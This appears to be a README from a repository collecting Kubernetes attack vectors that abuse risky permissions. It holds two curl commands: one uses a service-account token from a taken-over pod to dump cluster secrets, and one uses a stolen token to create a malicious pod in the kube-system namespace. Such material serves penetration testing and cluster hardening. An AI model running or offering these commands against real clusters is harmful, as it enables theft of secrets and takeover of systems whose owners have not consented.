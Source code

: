 # Kubernetes

Collection of Kubernetes Attack vectors based on risky permissions

## Listing secrets

If a attacker is able to overtake a pod he has access to the service accounts JWT that the pod uses to talk to the api server. If the token is privilided to read secretes, the following curl call can be used to get the secretes.
````
curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://<controlpane-ip>:6443/api/v1/namespaces/cloud-idp/secrets | jq  -r ".items[].data"
````

## Spawn a malicious pod via API

Sometimes, it's necessary to spawn a pod with a stolen Token via curl
````
curl -k -X POST -H "Authorization: Bearer $Token" -H "Content-Type: application/json" https://<controlpane-ip>:6443/api/v1/namespaces/kube-system/pods -d @maliciousPod.json
